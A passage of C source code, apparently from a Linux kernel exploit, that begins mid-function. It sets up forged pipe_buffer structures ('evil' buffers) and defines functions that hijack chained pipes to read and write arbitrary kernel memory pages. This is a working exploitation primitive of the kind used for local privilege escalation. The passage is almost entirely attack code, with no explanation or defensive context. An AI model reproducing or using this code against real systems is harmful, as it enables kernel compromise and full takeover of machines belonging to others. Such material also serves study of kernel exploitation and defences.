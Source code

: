 ```c
    /* init the initial val for 2nd,3rd and 4th pipe, for recovering only */
    memcpy(&evil_2nd_buf, &info_pipe_buf, sizeof(evil_2nd_buf));
    memcpy(&evil_3rd_buf, &info_pipe_buf, sizeof(evil_3rd_buf));
    memcpy(&evil_4th_buf, &info_pipe_buf, sizeof(evil_4th_buf));

    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0xff0;

    /* hijack the 3rd pipe pointing to 4th */
    evil_3rd_buf.offset = TRD_PIPE_BUF_SZ * 3;
    evil_3rd_buf.len = 0;
    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));

    evil_4th_buf.offset = TRD_PIPE_BUF_SZ;
    evil_4th_buf.len = 0;
}

void arbitrary_read_by_pipe(struct page *page_to_read, void *dst)
{
    /* page to read */
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0x1ff8;
    evil_2nd_buf.page = page_to_read;

    /* hijack the 4th pipe pointing to 2nd pipe */
    write(pipe_fd[self_3rd_pipe_pid][1], &evil_4th_buf, sizeof(evil_4th_buf));

    /* hijack the 2nd pipe for arbitrary read */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_2nd_buf, sizeof(evil_2nd_buf));
    write(pipe_fd[self_4th_pipe_pid][1], 
          temp_zero_buf, 
          TRD_PIPE_BUF_SZ-sizeof(evil_2nd_buf));
    
    /* hijack the 3rd pipe to point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));

    /* read out data */
    read(pipe_fd[self_2nd_pipe_pid][0], dst, 0xfff);
}

void arbitrary_write_by_pipe(struct page *page_to_write, void *src, size_t len)
{
    /* page to write */
    evil_2nd_buf.page = page_to_write;
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0;

    /* hijack the 4th pipe pointing to 2nd pipe */
    write(pipe_fd[self_3rd_pipe_pid][1], &evil_4th_buf, sizeof(evil_4th_buf));

    /* hijack the 2nd pipe for arbitrary read, 3rd pipe point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_2nd_buf, sizeof(evil_2nd_buf));
    write(pipe_fd[self_4th_pipe_pid][1], 
          temp_zero_buf, 
          TRD_PIPE_BUF_SZ - sizeof(evil_2nd_buf));
    
    /* hijack the 3rd pipe to point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));

    /* write data into dst page */
    write(pipe_fd[self_2nd_pipe_pid][1], src, len);
}

```